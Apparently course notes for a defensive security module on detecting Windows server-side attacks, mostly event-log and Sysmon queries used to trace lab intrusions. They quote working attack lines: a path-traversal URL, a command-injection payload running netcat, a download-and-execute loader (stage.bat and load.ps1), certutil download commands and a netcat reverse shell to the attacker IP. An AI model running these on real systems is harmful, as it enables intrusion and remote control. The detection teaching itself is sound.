


# Module 4: Windows Server Side Attacks

## Credential Abuse

### The Security Account Manager (SAM) and Windows Authentication

On Windows, hashed passwords are stored in the Security Account Manager (SAM) database. To deter offline SAM database password attacks, Microsoft introduced the SYSKEY feature, which partially encrypts the SAM file. Though it was successful, it has been discontinued since the encryption key length is considered insecure.


SYSKEY was also being used for ransomware scams. Microsoft has since recommended [BitLocker](https://en.wikipedia.org/wiki/BitLocker) as an alternative to SYSKEY to protect not only the SAM but entire [hard drive volumes](https://en.wikipedia.org/wiki/Volume_\(computing\)).


Windows NT-based OS', up to and including Windows 2003 store two different password hashes: LAN Manager (LM), which is based on Data Encrypt Standard (DES), and NT LAN Manager (NTLM), which uses MD4 hashing.

LAN Manager is very weak since passwords longer than seven characters are split into two strings and each piece is hashed separately. They are also converted to all upper-case characters before hashing, and does not include salt, making a hash-lookup attack feasible.

Starting in Vista, LM is disabled by default, using NTLM. Unfortunately, NTLM is still not salted.

Authentication occurs by converting a user's password into a hash via Local Security Authority (LSA) and is then compared to the one stored in the system's SAM.

### Suspicious Logins

_Potentially Suspicious Logon Event during Off-Hours_


```powershell
Get-WinEvent -FilterHashtable @{LogName='Security'; StartTime="4/30/2021 19:00:00"; EndTime="5/3/2021 07:00:00"; ID=4624 }
```


_Querying the full details of the identified suspicious logon event_


```powershell
[192.168.51.11]: PS C:\Users\Administrator> Get-WinEvent -FilterHashtable @{LogName='Security'; StartTime="5/1/2021 03:21:26"; EndTime="5/1/2021 03:21:27"; ID=4624 } | Format-List

TimeCreated  : 5/1/2021 3:21:26 AM
ProviderName : Microsoft-Windows-Security-Auditing
Id           : 4624
Message      : An account was successfully logged on.
               
...
               
               Logon Information:
                Logon Type:             10
...

               New Logon:
                Security ID:            S-1-5-21-1253842116-4206507704-3578910670-500
                Logon ID:               0x323466
                Account Name:           Administrator
                Account Domain:         SERVER01
...
                Workstation Name:       SERVER01
                Source Network Address: 192.168.51.50
...
```


The Logon ID is unique to each session. This can be used to differentiate between two or more administrators. It can also help correlate other events.

_Custom Function Get-SecurityEvent_

```powershell
function Get-SecurityEvent{
    param (
        $eventid,
        $start,
        $end
    )
    $filters = @{LogName = "Security"}
    
    if ($eventid -ne $null) {
        $filters.ID = $eventid
    }
    if ($start -ne $null) {
        $filters.StartTime = $start
    }

    if ($end -ne $null) {
        $filters.EndTime = $end
    }
    Get-WinEvent -FilterHashtable $filters
}
```

_Finding all logoff events after the suspicious Logon event_


```powershell
[192.168.51.11]: PS C:\Users\Administrator\Documents> Get-SecurityEvent 4634 "5/1/2021 03:21:26" "5/3/2021 07:00:00" | Where-Object { $_.properties[3].value -eq 0x323466 } | Format-List

TimeCreated  : 5/1/2021 3:21:26 AM
ProviderName : Microsoft-Windows-Security-Auditing
Id           : 4634
Message      : An account was logged off.
               
               Subject:
                Security ID:            S-1-5-21-1253842116-4206507704-3578910670-500
                Account Name:           Administrator
                Account Domain:         SERVER01
                Logon ID:               0x323466
               
               Logon Type:                      10
```


### Brute Force Logins

<figure><figcaption><p><em>Events generated by a brute force logon attempt</em></p></figcaption></figure>

_Logon Failure Events from brute force attack_


```powershell
[192.168.51.11]: PS C:\Users\Administrator> Get-SecurityEvent 4625 "5/6/2021 00:00:00" "5/7/2021 00:00:00"

   ProviderName: Microsoft-Windows-Security-Auditing
   
TimeCreated                     Id LevelDisplayName Message       
-----------                     -- ---------------- -------
5/6/2021 9:36:49 AM           4625 Information      An account failed to log on....                                                           
5/6/2021 9:36:49 AM           4625 Information      An account failed to log on....                                                           
5/6/2021 9:36:49 AM           4625 Information      An account failed to log on....                                                           
5/6/2021 9:36:49 AM           4625 Information      An account failed to log on....                                                           
5/6/2021 9:36:49 AM           4625 Information      An account failed to log on....                                                           
5/6/2021 9:36:49 AM           4625 Information      An account failed to log on....                                                           
5/6/2021 9:36:49 AM           4625 Information      An account failed to log on....                                                           
5/6/2021 9:36:49 AM           4625 Information      An account failed to log on....                                                           
...
5/6/2021 9:36:44 AM           4625 Information      An account failed to log on.... 
```


_Format-List Custom Field with Logon Type for Logon Failure Events_

```powershell
@{Label = "Logon Type"; Expression = {$_.properties[10].value}}
```

_Format-List Custom Fields with User Name, Workstation Name, and IP Address for Logon Failure Events_

```powershell
@{Label = "Target User Name"; Expression = {$_.properties[5].value}}
@{Label = "Workstation Name"; Expression = {$_.properties[13].value}}
@{Label = "IP Address"; Expression = {$_.properties[19].value}}
```

_Format-List Custom Fields with Status and Substatus for Logon Failure Events_

```powershell
@{Label = "Status"; Expression = {'{0:X8}' -f $_.properties[7].value}}
@{Label = "Substatus"; Expression = {'{0:X8}' -f $_.properties[9].value}}
```


One of the status codes for a logon failure is C000006F: User logon outside authorized hours. Account policy supports the ability to restrict when user accounts can log in to a system. It is important to note that this restriction cannot be applied to Administrator accounts. But such a configuration can reduce the likelihood of compromised user accounts authenticating during off-hours.


_Custom Output for querying Logon Failure Events using Get-SecurityEvent_


```powershell
[192.168.51.11]: PS C:\Users\Administrator> Get-SecurityEvent 4625 "5/6/2021 00:00:00" "5/7/2021 00:00:00" | Format-List TimeCreated, @{Label = "Logon Type"; Expression = {$_.properties[10].value}}, @{Label = "Status"; Expression = {'{0:X8}' -f $_.properties[7].value}}, @{Label = "Substatus"; Expression = {'{0:X8}' -f $_.properties[9].value}}, @{Label = "Target User Name"; Expression = {$_.properties[5].value}}, @{Label = "Workstation Name"; Expression = {$_.properties[13].value}}, @{Label = "IP Address"; Expression = {$_.properties[19].value}}

TimeCreated      : 5/6/2021 9:36:49 AM
Logon Type       : 3
Status           : C000006D
Substatus        : C000006A
Target User Name : Administrator
Workstation Name : attacker01
IP Address       : 192.168.51.50

TimeCreated      : 5/6/2021 9:36:49 AM
Logon Type       : 3
Status           : C000006D
Substatus        : C000006A
Target User Name : Administrator
Workstation Name : ATTACKER01
IP Address       : 192.168.51.50
...
TimeCreated      : 5/6/2021 9:36:44 AM
Logon Type       : 3
Status           : C000006D
Substatus        : C000006A
Target User Name : Administrator
Workstation Name : ATTACKER01
IP Address       : 192.168.51.50
```



NLA is recommended for enterprise networks that support RDP for remote access. It requires later versions of software, reduces the risk of denial-of-service, and in one case thwarts a means of persistence. For more information, look up the Accessibility Features sub-technique of Event Triggered Execution in the MITRE ATT\&CK Framework.


_Logon Success after brute force authentication_


```powershell
[192.168.51.11]: PS C:\Users\Administrator\Documents> Get-SecurityEvent 4624 "5/6/2021 09:36:44" "5/6/2021 09:37:44" | Where-Object { $_.properties[18].value -eq "192.168.51.50" }

   ProviderName: Microsoft-Windows-Security-Auditing

TimeCreated                     Id LevelDisplayName Message       
-----------                     -- ---------------- -------
5/6/2021 9:36:50 AM           4624 Information      An account was successfully logged on....         
```


## Web Application Attacks

### Internet Information Services (IIS)

IIS is Microsoft's built-in web server solution. In addition to web and file transfer protocols, IIS can server .NET scripts and applications.

Logs are saved to **C:\inetpub\logs\LogFiles.** Each log file begins with **u\_ex** followed by a date formatted as **YYMMDD**. Example: **u\_ex210506.log**.

_Example IIS Log Entry_


```log
#Software: Microsoft Internet Information Services 10.0
#Version: 1.0
#Date: 2021-05-06 19:42:21
#Fields: date time s-ip cs-method cs-uri-stem cs-uri-query s-port cs-username c-ip cs(User-Agent) cs(Referer) sc-status sc-substatus sc-win32-status time-taken
2021-05-06 19:42:21 192.168.51.11 GET / - 80 - 192.168.51.50 Mozilla/5.0+(X11;+Linux+x86_64;+rv:78.0)+Gecko/20100101+Firefox/78.0 - 200 0 0 94
```


_Common W3C fields and their descriptions_

* **s-ip** - IP address of the server receiving the web activity
* **cs-method** - [Requested HTTP method](https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods) from client (e.g., GET)
* **cs-uri-stem** - Target file requested from web server
* **s-port** - Server port of the web service (e.g., 80)
* **c-ip** - IP address of the client requesting the web page
* **cs(User-Agent)** - [User-Agent](https://en.wikipedia.org/wiki/User_agent) string of the client's web browser
* **cs(Referer)** - [HTTP Referer](https://en.wikipedia.org/wiki/HTTP_referer) of previous page that sent user to the target file, if relevant
* **sc-status** - [HTTP Status Code](https://docs.microsoft.com/en-us/troubleshoot/iis/http-status-code#common-http-status-codes-and-the-causes) from server (e.g., 200 for found, 404 for missing)

### Local File Inclusion

Local File Inclusion (LFI) allows an attacker to access arbitrary files on the underlying file system.

_Local File Inclusion Proof-of-Concept for Site Import Plugin from Exploit-DB_


```
[PoC]
======================================
...
Local File Inclusion == http://localhost/wordpress/wp-content/plugins/site-import/admin/page.php?url=..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\..\windows\win.ini
======================================
```


In Windows, web applications like WordPress are typically installed within the **wwwroot** folder. The full path would be **C:\inetpub\wwwroot\wordpress\wp-config.php**.

_IIS Log with LFI Attack Entry_


```log
2021-05-10 19:25:12 192.168.51.11 GET /wordpress/wp-content/plugins/site-import/admin/page.php?url=/inetpub/wwwroot/wordpress/wp-config.php 80 - 192.168.51.50 Python-urllib/3.8 - 200 0 0 3
```


### Command Injection

Command Injection allows an attacker to insert arbitrary commands that can be executed by the host operating system rather than the application receiving them.

_HTTP POST Excerpt from Plainview Activity Monitor command injection_


```markup
<body>
<script>history.pushState('', '', '/')</script>
...
  <input type="hidden" name="ip" value="google.fr| nc -nlvp 127.0.0.1 9999  -e /bin/bash" />
  <input type="hidden" name="lookup" value="Lookup" />
  <input type="submit" value="Submit request" />
</body>
```


<figure><figcaption><p>Command Injection Results</p></figcaption></figure>

_IIS Log entry for command injection_


```log
2021-05-10 20:02:38 192.168.51.11
POST /wordpress/wp-admin/admin.php
page=plainview_activity_monitor&tab=activity_tools 80 - 192.168.51.50
Mozilla/5.0+(X11;+Linux+x86_64;+rv:78.0)+Gecko/20100101+Firefox/78.0
http://192.168.51.11/wordpress/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools
200 0 0 3731
```


The only suspicious data in this log entry is the time milliseconds elapse while executing the query — 3731. If a baseline of 200-400 milliseconds is expected then that could lead us to look into this further.

_Sysmon ProcessCreate event log entries_


```powershell
[192.168.51.11]: PS C:\inetpub\logs\LogFiles\W3SVC1> Get-SysmonEvent $null "05/10/2021 16:02:00" "5/10/2021 16:03:00"

   ProviderName: Microsoft-Windows-Sysmon

TimeCreated                     Id LevelDisplayName Message
-----------                     -- ---------------- -------
5/10/2021 4:02:34 PM             1 Information      Process Create:...
5/10/2021 4:02:34 PM             1 Information      Process Create:...
5/10/2021 4:02:34 PM             1 Information      Process Create:...
```


_Getting Sysmon ProcessCreate events with chain of execution_


```powershell
[192.168.51.11]: PS C:\inetpub\logs\LogFiles\W3SVC1> Get-SysmonEvent 1 "05/10/2021 16:02:33" "5/10/2021 16:02:35" | Format-List TimeCreated, @{Label = "CommandLine"; Expression = {$_.properties[10].value}}, @{Label = "User"; Expression = {$_.properties[12].value}}, @{Label = "ParentImage"; Expression = {$_.properties[20].value}}

TimeCreated : 5/10/2021 4:02:34 PM
CommandLine : systeminfo
User        : NT AUTHORITY\IUSR
ParentImage : C:\Windows\SysWOW64\cmd.exe

TimeCreated : 5/10/2021 4:02:34 PM
CommandLine : dig  -x t.co
User        : NT AUTHORITY\IUSR
ParentImage : C:\Windows\SysWOW64\cmd.exe

TimeCreated : 5/10/2021 4:02:34 PM
CommandLine : cmd.exe /s /c "dig -x t.co|systeminfo"
User        : NT AUTHORITY\IUSR
ParentImage : C:\Program Files (x86)\PHP\v8.0\php-cgi.exe
```


IUSR is the built-in "user" account for IIS.

### File Upload

Coupled with command injection, a user may be able to download a remote file for further actions.


Certutil is just one of several native binaries that can be used to download files to Windows. However, we chose this utility because it is installed on Windows by default, and modern attackers have learned to leverage these tools for interesting purposes in a technique known as [Living off the Land](https://www.drizgroup.com/driz_group_blog/what-is-living-off-the-land-attack-and-how-to-prevent-such-attack) (LotL). The security community has compiled a list of these useful Windows binaries in a project titled [_Living Off The Land Binaries and Scripts (LOLBAS)_](https://lolbas-project.github.io/).


_Setting up Python 3 Simple HTTP Server on port 8000_

```bash
kali@attacker01:~/SOC-200/Windows_Server_Side_Attacks$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ..
```

_Uploading nc.exe using a Plainview Monitor exploit script_


```bash
kali@attacker01:~/SOC-200/Windows_Server_Side_Attacks$ python3 plainview_up.py 192.168.51.11 192.168.51.50 nc.exe
Attempting to upload nc.exe using Plainview Activity Monitor...success!
...
```


_Python HTTP server activity_

```log
kali@attacker01:~/SOC-200/Windows_Server_Side_Attacks$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ..
192.168.51.11 - - [12/May/2021 12:48:51] "GET /nc.exe HTTP/1.1" 200 -
192.168.51.11 - - [12/May/2021 12:48:51] "GET /nc.exe HTTP/1.1" 200 -
```

_Directory listing for C:\Windows\Temp showing netcat file downloaded successfully_

```powershell
[192.168.51.11]: PS C:\inetpub\logs\LogFiles\W3SVC1> dir
C:\Windows\Temp

    Directory: C:\Windows\Temp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/12/2021  12:48 PM          59392 nc.exe
```

_New FileCreate event from Command Injection following ProcessCreate events_


```powershell
[192.168.51.11]: PS C:\inetpub\logs\LogFiles\W3SVC1> Get-SysmonEvent $null "05/12/2021 12:48:00" "5/12/2021 12:49:00"

   ProviderName: Microsoft-Windows-Sysmon

TimeCreated                     Id LevelDisplayName Message
-----------                     -- ---------------- -------
5/12/2021 12:48:51 PM           11 Information      File created:...
5/12/2021 12:48:51 PM            1 Information      Process Create:...
5/12/2021 12:48:51 PM            1 Information      Process Create:...
5/12/2021 12:48:51 PM            1 Information      Process Create:...
```


_FileCreate event from Command Injection with Certutil_


```powershell
[192.168.51.11]: PS C:\inetpub\logs\LogFiles\W3SVC1> Get-SysmonEvent 11 "05/12/2021 12:48:50" "05/12/2021 12:48:52" | Format-List @{Label = "Rule"; Expression = {$_.properties[0].value}}, @{Label = "PID"; Expression = {$_.properties[3].value}},@{Label = "Image"; Expression = {$_.properties[4].value}}, @{Label = "TargetFile"; Expression = {$_.properties[5].value}}

Rule       : EXE
PID        : 3704
Image      : C:\Windows\SysWOW64\certutil.exe
TargetFile : C:\Windows\Temp\nc.exe
```


_Batch file loader 'stage.bat'_


```batch
@ECHO OFF
powershell -c "iex (New-Object System.Net.WebClient).DownloadString('http://192.168.51.50:8000/load.ps1')"
```


_PowerShell script loader 'load.ps1'_


```powershell
del stage.bat
wget http://192.168.51.50:8000/nc.exe -O /Windows/Temp/nc.exe
/Windows/Temp/nc.exe 192.168.51.50 4444 -e cmd.exe
```


_Running http\_netcat.sh to open a netcat listener and set up Simple HTTP Server_

```bash
kali@attacker01:~/SOC-200/Windows_Server_Side_Attacks$ ./http_netcat.sh
listening on [any] 4444 ...
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

_Running plainview\_up\_exec to download and execute stage.bat and load.ps1_


```bash
kali@attacker01:~/SOC-200/Windows_Server_Side_Attacks$ python3 plainview_up_exec.py 192.168.51.11 192.168.51.50
Attempting to upload stage.bat using Plainview Activity Monitor...success!
Now running stage.bat. check your netcat listener for a shell!
```


_Web activity from HTTP Server and command prompt from Windows Server 2019_


```log
kali@attacker01:~/SOC-200/Windows_Server_Side_Attacks$ ./http_netcat.sh      
listening on [any] 4444 ...
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.51.11 - - [13/May/2021 14:26:17] "GET /stage.bat HTTP/1.1" 200 -
192.168.51.11 - - [13/May/2021 14:26:17] "GET /stage.bat HTTP/1.1" 200 -
192.168.51.11 - - [13/May/2021 14:26:17] "GET /load.ps1 HTTP/1.1" 200 -
192.168.51.11 - - [13/May/2021 14:26:17] "GET /nc.exe HTTP/1.1" 200 -
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\wordpress\wp-admin>
```


_Confirming that stage.bat was deleted_

```powershell
C:\inetpub\wwwroot\wordpress\wp-admin> cd \
cd \
C:\> dir stage.bat /s
dir stage.bat /s
 Volume in drive C has no label.
 Volume Serial Number is 0A02-CE1B
File Not Found
```

_All Sysmon events for the attack using plainview\_up\_exec.py_


```powershell
[192.168.51.11]: PS C:\inetpub\logs\LogFiles\W3SVC1> Get-SysmonEvent $null "05/13/2021 14:26:00" "5/13/2021 14:27:00"

   ProviderName: Microsoft-Windows-Sysmon
TimeCreated                      Id LevelDisplayName Message       
-----------                      -- ---------------- -------
5/13/2021 2:26:19 PM              3 Information      Network connection detected:...                                                           
5/13/2021 2:26:19 PM              3 Information      Network connection detected:...                                                           
5/13/2021 2:26:19 PM              3 Information      Network connection detected:... 
5/13/2021 2:26:18 PM              1 Information      Process Create:...
5/13/2021 2:26:18 PM              1 Information      Process Create:...
5/13/2021 2:26:18 PM             11 Information      File created:...
5/13/2021 2:26:17 PM             11 Information      File created:...
5/13/2021 2:26:17 PM              1 Information      Process Create:...
5/13/2021 2:26:17 PM              1 Information      Process Create:...
5/13/2021 2:26:17 PM              1 Information      Process Create:...
5/13/2021 2:26:17 PM              1 Information      Process Create:...
5/13/2021 2:26:17 PM             11 Information      File created:...
5/13/2021 2:26:17 PM              1 Information      Process Create:...
5/13/2021 2:26:17 PM              1 Information      Process Create:...
5/13/2021 2:26:17 PM              1 Information      Process Create:...
```


_Initial ProcessCreate events from the plainview\_up\_exec.py script_


```powershell
[192.168.51.11]: PS C:\inetpub\logs\LogFiles\W3SVC1> Get-SysmonEvent 1 "5/13/2021 14:26:16" "5/13/2021 14:26:18" | Format-List TimeCreated, @{Label = "CommandLine"; Expression = {$_.properties[10].value}}, @{Label = "User"; Expression = {$_.properties[12].value}}, @{Label = "ParentImage"; Expression = {$_.properties[20].value}}

...
TimeCreated : 5/13/2021 2:26:17 PM
CommandLine : C:\Windows\system32\cmd.exe  /S /D /c" stage.bat"
User        : NT AUTHORITY\IUSR
ParentImage : C:\Windows\SysWOW64\cmd.exe

TimeCreated : 5/13/2021 2:26:17 PM
CommandLine : dig  -x t.co
User        : NT AUTHORITY\IUSR
ParentImage : C:\Windows\SysWOW64\cmd.exe

TimeCreated : 5/13/2021 2:26:17 PM
CommandLine : cmd.exe /s /c "dig -x t.co|stage.bat"
User        : NT AUTHORITY\IUSR
ParentImage : C:\Program Files (x86)\PHP\v8.0\php-cgi.exe

TimeCreated : 5/13/2021 2:26:17 PM
CommandLine : certutil.exe  -urlcache -f http://192.168.1.20:8000/stage.bat stage.bat
User        : NT AUTHORITY\IUSR
ParentImage : C:\Windows\SysWOW64\cmd.exe

TimeCreated : 5/13/2021 2:26:17 PM
CommandLine : dig  -x t.co
User        : NT AUTHORITY\IUSR
ParentImage : C:\Windows\SysWOW64\cmd.exe

TimeCreated : 5/13/2021 2:26:17 PM
CommandLine : cmd.exe /s /c "dig -x t.co|certutil.exe -urlcache -f http://192.168.1.20:8000/stage.bat stage.bat"
User        : NT AUTHORITY\IUSR
ParentImage : C:\Program Files (x86)\PHP\v8.0\php-cgi.exe
```


_Initial FileCreate events from the plainview\_up\_exec.py script_


```powershell
[192.168.51.11]: PS C:\inetpub\logs\LogFiles\W3SVC1> Get-SysmonEvent 11 "5/13/2021 14:26:16" "5/13/2021 14:26:18" | Format-List @{Label = "Rule"; Expression = {$_.properties[0].value}}, @{Label = "PID"; Expression = {$_.properties[3].value}},@{Label = "Image"; Expression = {$_.properties[4].value}}, @{Label = "TargetFile"; Expression = {$_.properties[5].value}}

Rule       : -
PID        : 6784
Image      : C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
TargetFile : C:\Windows\Temp\__PSScriptPolicyTest_xv0arjmb.trl.ps1

Rule       : -
PID        : 196
Image      : C:\Windows\SysWOW64\certutil.exe
TargetFile : C:\inetpub\wwwroot\wordpress\wp-admin\stage.bat
```



We could also consider FileCreate events in which the TargetFile is in C:\Windows\Temp. Some malware relies on obscurity to remain undetected, but watching this directory may provide clues as to how we can trace an infection back to its origin process.


_Secondary FileCreate event from the plainview\_up\_exec.py script_


```powershell
[192.168.51.11]: PS C:\inetpub\logs\LogFiles\W3SVC1> Get-SysmonEvent 11 "5/13/2021 14:26:17" "5/13/2021 14:26:19" | Format-List @{Label = "Rule"; Expression = {$_.properties[0].value}}, @{Label = "PID"; Expression = {$_.properties[3].value}},@{Label = "Image"; Expression = {$_.properties[4].value}}, @{Label = "TargetFile"; Expression = {$_.properties[5].value}}

Rule        : EXE
PID         : 6784
Image       : C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
TargetFile  : C:\Windows\Temp\nc.exe
```


_ProcessCreate events with PowerShell running netcat, and netcat running cmd.exe_


```powershell
[192.168.51.11]: PS C:\inetpub\logs\LogFiles\W3SVC1> Get-SysmonEvent 1 "5/13/2021 14:26:17" "5/13/2021 14:26:19" | Format-List TimeCreated, @{Label = "PID"; Expression = {$_.properties[3].value}}, @{Label = "PPID"; Expression = {$_.properties[19].value}}, @{Label = "CommandLine"; Expression = {$_.properties[10].value}}, @{Label = "User"; Expression = {$_.properties[12].value}}, @{Label = "ParentImage"; Expression = {$_.properties[20].value}}

TimeCreated : 5/13/2021 2:26:18 PM
PID         : 2172
PPID        : 5760
CommandLine : cmd.exe
User        : NT AUTHORITY\IUSR
ParentImage : C:\Windows\Temp\nc.exe

TimeCreated : 5/13/2021 2:26:18 PM
PID         : 5760
PPID        : 6784
CommandLine : "/Windows/Temp/nc.exe" 192.168.51.50 4444 -e cmd.exe
User        : NT AUTHORITY\IUSR
ParentImage : C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
```


_NetworkConnect events with PowerShell and netcat_


```powershell
[192.168.51.11]: PS C:\inetpub\logs\LogFiles\W3SVC1> Get-SysmonEvent 3 "5/13/2021 2:26:18" "5/13/2021 2:26:20" | Format-List @{Label = "PID"; Expression = {$_.properties[3].value}}, @{Label = "Image"; Expression = {$_.properties[4].value}}, @{Label = "User"; Expression = {$_.properties[5].value}}, @{Label = "Source IP"; Expression = {$_.properties[9].value}}, @{Label = "Source Port"; Expression = {$_.properties[11].value}}, @{Label = "Destination IP"; Expression = {$_.properties[14].value}}, @{Label = "Destination Port"; Expression = {$_.properties[16].value}}


TimeCreated      : 5/13/2021 14:26:19
PID              : 5760
Image            : C:\Windows\Temp\nc.exe
User             : NT AUTHORITY\IUSR
Source IP        : 192.168.51.11
Source Port      : 50654
Destination IP   : 192.168.51.50
Destination Port : 4444

TimeCreated      : 5/13/2021 14:26:19
PID              : 6784
Image            : C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
User             : NT AUTHORITY\IUSR
Source IP        : 192.168.51.11
Source Port      : 50653
Destination IP   : 192.168.51.50
Destination Port : 8000

TimeCreated      : 5/13/2021 14:26:19
PID              : 6784
Image            : C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
User             : NT AUTHORITY\IUSR
Source IP        : 192.168.51.11
Source Port      : 50652
Destination IP   : 192.168.51.50
Destination Port : 8000
```


### Extra Mile

1. Identify all the IIS logs generated after running extramile\_up\_exec.sh.
2. Identify all of the ProcessCreate and FileCreate events that occur after running extramile\_up\_exec.sh.

## Binary Exploitation

### Binary Attacks

_Starting SyncBreeze Service so we can exploit it_


```powershell
[192.168.51.11]: PS C:\Users\Administrator\Documents> Start-Service -Name "Sync Breeze Enterprise"

[192.168.51.11]: PS C:\Users\Administrator\Documents> Get-Service -Name "Sync Breeze Enterprise" | Format-List -Property Status,Name,DisplayName

Status      : Running
Name        : Sync Breeze Enterprise
DisplayName : Sync Breeze Enterprise
```


_Executing Sync Breeze buffer overflow with Metasploit Framework via syncbreeze\_exp.sh_


```bash
kali@attacker01:~/SOC-200/Windows_Server_Side_Attacks$ ./syncbreeze_exp.sh 192.168.51.11 192.168.51.50
Initiating... please wait
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
PAYLOAD => windows/shell_reverse_tcp
RHOST => 192.168.51.11
RPORT => 8080
LHOST => 192.168.51.50
[*] Started reverse TCP handler on 192.168.51.50:4444 
[*] Automatically detecting target...
[*] Target is 10.0.28
[*] Sending request...
[*] Command shell session 1 opened (192.168.51.50:4444 ->
192.168.51.11:49688) at 2021-05-21 14:50:40 -0400
```


_Confirming hostname and current user context_

```powershell
C:\Windows\system32>hostname
hostname
server01

C:\Windows\system32>whoami
whoami
nt authority\system
```

SyncBreeze is neither a part of IIS nor does it have itw own auditing mechanism for logon attempts. Sysmon however catches events regarding this activity.

_Sysmon events created with buffer overflow_


```powershell
[192.168.51.11]: PS C:\Users\Administrator\Documents> Get-SysmonEvent $null "05/21/2021 14:50:34" "05/21/2021 14:50:44"

   ProviderName: Microsoft-Windows-Sysmon

TimeCreated             Id LevelDisplayName Message
-----------             -- ---------------- -------
5/21/2021 2:50:42 PM     3 Information      Network connection detected:...
5/21/2021 2:50:42 PM     3 Information      Network connection detected:...
5/21/2021 2:50:42 PM     3 Information      Network connection detected:...
5/21/2021 2:50:40 PM     1 Information      Process Create:...     
```


_Inspecting the ProcessCreate events_


```powershell
[192.168.51.11]: PS C:\Users\Administrator\Documents> Get-SysmonEvent 1 "05/21/2021 14:50:39" "05/21/2021 14:50:41" | Format-List TimeCreated, @{Label = "PID"; Expression = {$_.properties[3].value}}, @{Label = "PPID"; Expression = {$_.properties[19].value}}, @{Label = "CommandLine"; Expression = {$_.properties[10].value}}, @{Label = "User"; Expression = {$_.properties[12].value}}, @{Label = "ParentImage"; Expression = {$_.properties[20].value}}

TimeCreated : 5/21/2021 2:50:40 PM
PID         : 5084
PPID        : 5308
CommandLine : cmd
User        : NT AUTHORITY\SYSTEM
ParentImage : C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe
```


_Inspecting the NetworkConnect events_


```powershell
[192.168.51.11]: PS C:\Users\Administrator\Documents>Get-SysmonEvent 3 "05/21/2021 14:50:38" "5/21/2021 14:50:44" | Format-List TimeCreated, @{Label = "Image"; Expression = {$_.properties[4].value}}, @{Label = "Source IP"; Expression = {$_.properties[9].value}}, @{Label = "Source Port"; Expression = {$_.properties[11].value}}, @{Label = "Destination IP"; Expression = {$_.properties[14].value}}, @{Label = "Destination Port"; Expression = {$_.properties[16].value}}

Timecreated:     : 5/21/2021 2:50:42 PM
Image            : C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe
Source IP        : 192.168.51.11
Source Port      : 49700
Destination IP   : 192.168.51.50
Destination Port : 4444

Timecreated:     : 5/21/2021 2:50:42 PM
Image            : C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe
Source IP        : 192.168.51.50
Source Port      : 39709
Destination IP   : 192.168.51.11
Destination Port : 8080

Timecreated:     : 5/21/2021 2:50:42 PM
Image            : C:\Program Files (x86)\Sync Breeze Enterprise\bin\syncbrs.exe
Source IP        : 192.168.51.50
Source Port      : 45579
Destination IP   : 192.168.51.11
Destination Port : 8080
```


_Additional processes created after the connection_

```powershell
Get-SysmonEvent "05/21/2021 14:50:42" "05/21/2021 14:51:12"
```

_Shell commands `hostname` and `whoami` run inside the reverse shell_


```powershell
[192.168.51.11]: PS C:\Users\Administrator\Documents> Get-SysmonEvent 1 "08/06/2021 12:57:50" "08/06/2021 12:58:00" | Format-List TimeCreated, @{Label = "PID"; Expression = {$_.properties[3].value}}, @{Label = "PPID"; Expression = {$_.properties[19].value}}, @{Label = "CommandLine"; Expression = {$_.properties[10].value}}, @{Label = "User"; Expression = {$_.properties[12].value}}, @{Label = "ParentImage"; Expression = {$_.properties[20].value}}

TimeCreated : 5/21/2021 2:50:53 PM
PID         : 1132
PPID        : 5084
CommandLine : whoami
